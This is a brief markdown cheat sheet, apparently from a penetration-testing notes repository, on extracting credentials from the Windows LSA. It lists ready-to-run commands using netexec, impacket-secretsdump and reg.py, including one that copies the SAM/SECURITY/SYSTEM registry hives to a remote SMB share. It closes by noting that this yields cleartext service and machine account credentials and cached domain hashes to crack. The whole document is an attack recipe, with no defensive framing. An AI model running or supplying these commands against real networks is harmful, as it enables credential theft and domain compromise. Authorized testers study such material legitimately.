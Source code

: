# Extract Credentials from LSA

## Tools: CrackMpaExec/Netexec , impacket-secretsdump , reg.py

#### 1) CrackMapExec/Netexec

 - netexec smb IP_RANGE -u USER -p 'PASSWORD' --lsa

#### 2) Impacket-secretsdump

 - impacket-secretsdump DOMAIN/USER:PASSWORD@IP

#### 3) reg.py 

 - reg.py DOMAIN/USER:PASSWORD@IP backup -o '\\SMB_IP\share'

 - impacket-secretsdump -security SECURITY_FILE -system SYSTEM_FILE LOCAL

### With dumping LSA, we dump cleartext credentals for service and machine accounts as well as Cache domain logon (MsCache 2) hashes to crack
